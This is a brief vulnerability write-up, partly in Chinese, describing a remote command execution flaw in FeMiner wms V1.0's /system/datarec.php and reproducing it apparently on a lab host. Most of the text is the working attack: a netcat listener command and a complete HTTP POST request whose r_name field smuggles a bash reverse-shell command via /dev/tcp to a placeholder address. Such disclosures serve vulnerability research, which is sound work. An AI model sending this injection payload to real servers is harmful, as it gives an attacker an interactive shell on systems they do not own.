 ## 1. 漏洞介绍

A remote command execution (RCE) vulnerability was found in FeMiner wms V1.0 in /wms/src/system/datarec.php. The $\_POST[r_name] is directly passed into the $mysqlstr and is executed by exec.  

[Remote Command Execution vulnerability in /wms/src/system/datarec.php · Issue #12 · FeMiner/wms · GitHub](https://github.com/FeMiner/wms/issues/12)

## 2. 漏洞复现

服务器开启监听

```bash
nc -lvp 65528
```

利用 burpsuite 抓包修改实现反弹 shell 

```http
POST /system/datarec.php HTTP/1.1
Host: eci-2…………k9j.cloudeci1.ichunqiu.com
Content-Length: 77
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2…………k9j.cloudeci1.ichunqiu.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2…………k9j.cloudeci1.ichunqiu.com
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1702777793; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1702777861; 
Connection: close

r_name=$(bash+-c+'bash+-i+>%26+/dev/tcp/ip/port+0<%261+2>%261')  
```

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312171031330.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312171031030.png)
